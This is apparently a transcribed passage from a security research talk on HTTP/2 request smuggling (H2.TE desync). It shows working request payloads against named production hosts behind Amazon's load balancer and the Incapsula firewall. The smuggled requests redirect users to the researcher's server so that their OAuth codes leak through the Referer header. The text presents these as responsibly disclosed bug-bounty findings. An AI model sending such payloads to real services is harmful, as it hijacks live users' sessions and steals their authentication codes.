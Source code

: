 ```Front-end
GET /OOPS HTTP/1.1
Host: psres.net
Content-length: 10

x=
```
```Back-end
POST /identity/XUI/ HTTP/1.1
Host: id.b2b.oath.com
Content-Length: 68
Transfer-Encoding: chunked

0

GET /oops HTTP/1.1
Host: psres.net
Content-Length

x= 
```
here i've sent a request using transfer encoding chunked which is a connection  specific header field that should lead to the message being rejected, and it's  just been forwarded onto the back end, so the back end is  prioritized the chunks encoding over the correct content length and once again  i've gained the ability to redirect arbitrary live users to my  website. what i found was that i kept redirecting people who were in the  middle of login flows and thereby they ended up leaking their oauth  authentication codes to me via the referral header,
```Back-end
POST /identity/XUI/ HTTP/1.1
Host: id.b2b.oath.com
Content-Length: 68
Transfer-Encoding: chunked

0

GET /oops HTTP/1.1
Host: psres.net
Content-Length

x= GET /?...&CODE=SECRET HTTP/1.1
```
```
GET /b2blanding/show/oops HTTP/1.1
Host: psres.net
Referer: https://id.b2b.oath.com/?...&code=secret
```
as well as affecting everything behind amazon's application load balancer this  also affected everything behind encapsulated web application firewall  which is ironically meant to make your website more secure.  i reported this and got a 7 000 bounty off oath for it,  notably i reported this to both amazon and encapsula and didn't get a bounty  off either, the people that write the vulnerable code are not necessarily the  people who have to take responsibility for the result.
### H2.TE Desync. Header hijack
on another target, also using amazon application  load balancer, i found the same exploit technique worked
```
POST /account/login HTTP/1.1
Host: accounts.athena-aol.com
Content-Length: 104
Transfer-Encoding: chunked

0

GET /account/1/logout?next=https://psres.net/ HTTP/1.1
X-Ignore: X 

```